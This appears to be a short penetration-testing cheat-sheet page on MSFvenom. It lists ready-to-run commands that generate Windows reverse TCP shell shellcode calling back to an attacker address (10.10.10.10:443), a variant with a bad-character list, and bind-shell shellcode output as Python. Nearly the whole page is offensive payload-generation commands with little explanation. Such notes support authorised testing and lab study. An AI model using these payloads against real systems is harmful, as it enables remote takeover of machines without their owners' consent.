 ```yaml
---
description: >-
  MSFvenom is a combination of Msfpayload and Msfencode, putting both of these
  tools into a single Framework instance. msfvenom replaced both msfpayload and
  msfencode as of June 8th, 2015.
---
```


# MSFvenom

## Types of Shellcode

### Generic Shellcode

```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e generic/none
```

### Windows Reverse TCP Shell (x86)

{% hint style="info" %}
Only use this type if payload size is not a problem and you can't determine the bad chars.
{% endhint %}

```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"
```

### Blind Shellcode

```
msfvenom -p windows/shell_bind_tcp RHOST=10.11.11.11 LPORT=1337 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f python
```
